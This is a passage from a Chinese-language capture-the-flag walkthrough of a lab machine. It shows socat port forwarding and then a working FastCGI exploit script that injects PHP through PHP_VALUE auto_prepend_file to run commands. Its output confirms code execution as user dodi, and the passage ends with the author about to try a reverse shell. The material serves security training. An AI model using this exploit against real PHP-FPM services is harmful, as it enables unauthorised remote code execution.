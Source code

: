 ### 9000 端口

转发一下80端口：

```bash
(remote) lidia@hacktoys:/tmp$ ./socat TCP-LISTEN:8080,fork TCP4:127.0.0.1:80&
[1] 1314
(remote) lidia@hacktoys:/tmp$ ./socat TCP-LISTEN:9001,fork TCP4:127.0.0.1:9000&
[2] 1318
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157967.png" alt="image-20240907112800925" style="zoom:50%;" />

访问一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157968.png" alt="image-20240907112826617" style="zoom:50%;" />

尝试测试：参考 https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi 

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/html/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9001 &> $OUTPUT

    cat $OUTPUT
done
```

尝试修改指令，看看能不能执行：

```bash
# 命令改为 id
┌──(kali💀kali)-[~/temp/HackingToys]
└─$ ./exp.sh 192.168.10.101
Content-type: text/html; charset=UTF-8

<!--dodi
uid=1001(dodi) gid=1001(dodi) groups=1001(dodi),100(users)
-->
..........
```

发现是可以的，尝试反弹shell！
